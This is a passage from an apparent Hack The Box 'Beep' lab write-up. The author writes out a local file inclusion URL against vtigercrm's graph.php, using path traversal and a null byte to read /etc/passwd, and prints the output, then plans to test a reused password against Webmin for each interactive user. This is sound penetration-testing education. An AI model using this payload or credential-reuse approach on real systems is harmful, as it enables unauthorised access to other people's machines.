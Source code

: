 ![](/assets/images/htb-beep/beep-elastix-software-versions.png)

Since I couldn't find any more publicly known exploits for the software installed, I remembered that the `webmin` service on port 10000 required a login.

![](/assets/images/htb-beep/beep-webmin-login.png)

After doing some research on webmin, I learned that it used the UNIX `/etc/shadow` file to authenticate. Since I previously noticed password reuse in the `/etc/amportal.conf` file, I figured I might as well try enumerating the users that should have an interactive login session on the system and try logging in as each user with that password.

I first copied the `/etc/passwd` file from my web browser by exploiting the LFI vulnerability at `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` and searching for users with an interactive login session:

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
